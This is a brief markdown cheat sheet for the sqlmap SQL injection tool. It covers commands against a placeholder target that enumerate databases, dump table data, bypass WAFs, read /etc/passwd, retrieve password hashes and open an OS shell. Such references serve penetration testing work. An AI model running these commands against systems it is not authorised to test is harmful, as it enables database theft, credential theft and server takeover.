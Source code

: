 ## Basic Usage

```
sqlmap -u "http://target.com/page.php?id=1"
```

## Specify Request Method and Data

```
sqlmap -u "http://target.com/page.php" --data="id=1"
```
- Useful for POST requests.

## Scan a URL from a Request File

```
sqlmap -r request.txt
```

`request.txt` contains raw HTTP request headers/body.

## Database Enumeration

### List Databases

```
sqlmap -u "http://target.com/page.php?id=1" --dbs
```

## List Tables in a Database

```
sqlmap -u "http://target.com/page.php?id=1" -D <dbname> --tables
```

## List Columns in a Table

```
sqlmap -u "http://target.com/page.php?id=1" -D <dbname> -T <tablename> --columns
```

## Dump Data from a Table

```
sqlmap -u "http://target.com/page.php?id=1" -D <dbname> -T <tablename> --dump
```

## Bypass WAFs / Filters

```
sqlmap -u "http://target.com/page.php?id=1" --tamper=between,randomcase
```

## Advanced Features

- `--os-shell`: Get an interactive OS shell
    
- `--os-pwn`: Attempt to gain a full system compromise
    
- `--file-read=/etc/passwd`: Read files from the server
    
- `--passwords`: Retrieve DBMS user password hashes
    
- `--batch`: Skip prompts (useful for scripting)


## Notes
   
- Combine with a proxy (`--proxy=http://127.0.0.1:8080`) to monitor traffic with Burp.
    
- Use `--level` and `--risk` to control the intensity of the test.




